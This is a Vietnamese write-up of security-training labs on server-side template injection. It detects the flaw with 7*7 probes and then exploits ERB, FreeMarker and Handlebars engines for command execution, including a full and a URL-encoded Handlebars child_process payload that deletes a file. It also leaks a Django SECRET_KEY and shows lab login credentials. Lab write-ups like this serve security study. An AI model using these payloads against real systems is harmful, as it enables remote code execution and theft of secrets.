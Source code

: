 # 1. Basic server-side template injection
Khi xem product với id=1, nhận thấy message "Unfortunately this product is out of stock" được hiển thị, và url có dụng `/?message=....`. Thử với `/?message=<%=7*7%>` thì phần message hiển thị 49. Như vậy website có lỗi SSTI.

Lab description cho ta biết website sử dụng ERB template, như vậy ta chuyển đến URL `/?message=<%=system("rm /home/carlos/morale.txt")` để xóa file morale.txt. Kết quả thành công.

# 2. Basic server-side template injection (code context)

# 3. Server-side template injection using documentation
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn payload `${7*7}` thì trong response có số 49, như vậy website có lỗ hổng SSTI.

Thử chèn `${abc}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng template "freemaker" với ngôn ngữ Java.

![image](https://user-images.githubusercontent.com/103978452/219274969-c5098403-5979-4a8a-aafe-46d20f57f3ba.png)

Sau khi research trên internet, ta tìm được một số payload. Thử chèn `${"freemarker.template.utility.Execute"?new()("id")}` thì kết quả của lệnh id được trả về trong response. Như vậy, để xóa file "morale.txt", ta chèn vào payload `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`. Sau khi click Review, bài lab được giải thành công.

# 4. Server-side template injection in an unknown language with a documented exploit
Ta thấy với URL `/?message=abc` thì đoạn text "abc" sẽ được hiển thị trong response. Thử với `{{7*7}}` thì xuất hiện lỗi như sau:

![image](https://user-images.githubusercontent.com/103978452/219276586-6560f565-ba8f-4c84-a7d5-6e4cd0900619.png)

Như vậy ta biết được website sử dụng NodeJs, và sau một số research thì xác định thêm template được sử dụng là "handlebars". Ta tìm được một payload RCE trên Hacktricks như sau:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Thay thế command "whoami" thành "rm /home/carlos/morale.txt", thực hiện URL encoded rồi gán vào tham số "message". Như vậy request như sau:

```
GET /?message=%7b%7b%23with%20"s"%20as%20%7cstring%7c%7d%7d%0d%0a%20%20%7b%7b%23with%20"e"%7d%7d%0d%0a%20%20%20%20%7b%7b%23with%20split%20as%20%7cconslist%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epush%20%28lookup%20string%2esub%20"constructor"%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23with%20string%2esplit%20as%20%7ccodelist%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epush%20"return%20require%28%27child_process%27%29%2eexec%28%27rm%20%2fhome%2fcarlos%2fmorale%2etxt%27%29%3b"%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23each%20conslist%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23with%20%28string%2esub%2eapply%200%20codelist%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7bthis%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2feach%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%7b%7b%2fwith%7d%7d%0d%0a%7b%7b%2fwith%7d%7d
```

Sau khi submit, kết quả thành công.

# 5. Server-side template injection with information disclosure via user-supplied objects
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn `{{7*7}}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng Django framework. Sau các lần thử, ta dự đoán website sử dụng template là Jinja2.

Như vậy, ta chèn payload `{{settings.SECRET_KEY}}` để lấy thông tin SECRET_KEY. Sau khi click Preview, ta thu được `SECRET_KEY=gdrnh5wqn03818q16twn6vhz8zo28tdd`. Dùng thông tin thu được để submit, kết quả thành công.

# 6. Server-side template injection in a sandboxed environment

# 7. Server-side template injection with a custom exploit
